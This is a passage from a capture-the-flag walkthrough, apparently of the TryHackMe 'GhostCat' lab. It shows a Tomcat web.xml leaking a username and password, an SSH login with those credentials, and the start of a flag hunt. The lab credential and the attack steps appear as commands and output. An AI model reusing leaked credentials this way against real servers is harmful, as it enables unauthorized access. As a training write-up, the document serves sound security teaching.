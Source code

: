 ```
  version="4.0"
  metadata-complete="true">

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
	skyfuck:8730281lkjlkjdqlksalks
  </description>

</web-app>
```

The most important part of this output is:

`skyfuck:8730281lkjlkjdqlksalks`

This looks more like a username and password.

The tomcat server has ssh port open, then let's try connecting it with the credentials obtained above:

```
$ ssh skyfuck@10.10.90.195 
```

And what do you know, we are in:

```
skyfuck@10.10.90.195's password: 
Welcome to Ubuntu 16.04.6 LTS (GNU/Linux 4.4.0-174-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

skyfuck@ubuntu:~$ 
```

Here, we have successfully exploited the server and got the access.

# Getting the USER Flag:

Let's see where we can find the user.txt file.

First, we will search in our current directory:

```
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
